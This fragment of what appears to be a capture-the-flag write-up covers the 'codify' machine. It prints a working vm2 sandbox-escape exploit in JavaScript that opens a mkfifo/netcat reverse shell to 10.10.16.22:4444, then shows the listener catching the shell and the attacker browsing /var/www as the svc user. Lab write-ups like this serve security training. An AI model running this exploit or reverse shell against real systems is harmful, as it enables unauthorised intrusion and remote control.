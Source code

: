 Detect the use of vm2 library in the editor and try to use [POC](https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac#poc).

```js
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.22 4444 >/tmp/f').toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code));
```

We are in the service account. We search for services and find the tickets.db database and the bcrypt hash in it.

```bash
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.16.22] from (UNKNOWN) [10.10.11.239] 52252
bash: cannot set terminal process group (1248): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ id
id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
svc@codify:~$ ls
ls
exfil.sh
exploit1.sh
exploit.py
pwned
svc@codify:~$ cd /var/www
cd /var/www
svc@codify:/var/www$ ls
ls
contact
editor
html
svc@codify:/var/www$ cd editor
cd editor
svc@codify:/var/www/editor$ ls
ls
index.js
node_modules
package.json
package-lock.json
templates
svc@codify:/var/www/editor$ cd ..
cd ..
svc@codify:/var/www$ cd html
```